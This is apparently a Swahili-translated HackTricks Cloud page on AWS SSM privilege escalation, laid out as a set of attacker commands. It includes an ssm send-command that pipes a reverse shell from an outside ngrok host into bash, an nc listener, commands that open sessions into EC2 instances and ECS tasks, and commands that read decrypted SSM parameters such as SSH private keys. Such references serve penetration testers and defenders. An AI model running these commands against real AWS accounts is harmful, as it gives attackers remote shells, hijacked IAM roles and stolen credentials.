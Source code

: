 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Kwa maelezo zaidi kuhusu SSM angalia:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa **`ssm:SendCommand`** anaweza **kutekeleza amri katika mifano** inayotumia Amazon SSM Agent na **kuathiri IAM Role** inayotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Katika kesi unayotumia mbinu hii kuongeza mamlaka ndani ya mfano wa EC2 ulioathiriwa tayari, unaweza tu kukamata rev shell kwa ndani kwa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents inayoendesha.

### `ssm:StartSession`

Mshambuliaji mwenye ruhusa **`ssm:StartSession`** anaweza **kuanzisha kikao kama cha SSH katika mifano** inayotembea yenye Amazon SSM Agent na **kuathiri IAM Role** inayotembea ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Ili kuanza kikao unahitaji **SessionManagerPlugin** iliyosakinishwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Athari Zinazoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents inayoendesha.

#### Privesc kwa ECS

Wakati **ECS tasks** zinapokimbia na **`ExecuteCommand` imewezeshwa** watumiaji wenye ruhusa za kutosha wanaweza kutumia `ecs execute-command` ili **kutekeleza amri** ndani ya kontena.\
Kulingana na [**nyaraka**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuunda channel salama kati ya kifaa unachotumia kuanzisha amri ya “_exec_“ na kontena lengwa na SSM Session Manager. (SSM Session Manager Plugin inahitajika ili hii ifanye kazi)\
Hivyo, watumiaji wenye `ssm:StartSession` wataweza **kupata shell ndani ya ECS tasks** na chaguo hilo likiwa limewezeshwa kwa kukimbia tu:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa `ECS`IAM roles zilizounganishwa na kazi zinazotembea zikiwa na `ExecuteCommand` iliyoanzishwa.

### `ssm:ResumeSession`

Mshambuliaji mwenye ruhusa **`ssm:ResumeSession`** anaweza ku-**anzisha tena kikao kama cha SSH katika mifano** inayotembea na Amazon SSM Agent ikiwa na hali ya kikao cha SSM **kilichounganishwa** na **kuathiri IAM Role** inayotembea ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents zinazotembea na vikao vilivyokatishwa.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Mshambuliaji mwenye ruhusa zilizoelezwa atakuwa na uwezo wa kuorodhesha **SSM parameters** na **kuzisoma kwa maandiko wazi**. Katika vigezo hivi mara nyingi unaweza **kuta taarifa nyeti** kama funguo za SSH au funguo za API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya vigezo.

### `ssm:ListCommands`

Mshambuliaji mwenye ruhusa hii anaweza kuorodhesha **amri** zote zilizotumwa na kwa matumaini kupata **taarifa nyeti** juu yao.
```
aws ssm list-commands
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mistari ya amri.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza orodhesha **amri** zote zilizotumwa na **kusoma matokeo** yaliyotolewa akitumaini kupata **taarifa nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya matokeo ya amri.

### Codebuild

Unaweza pia kutumia SSM kuingia ndani ya mradi wa codebuild unaojengwa:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
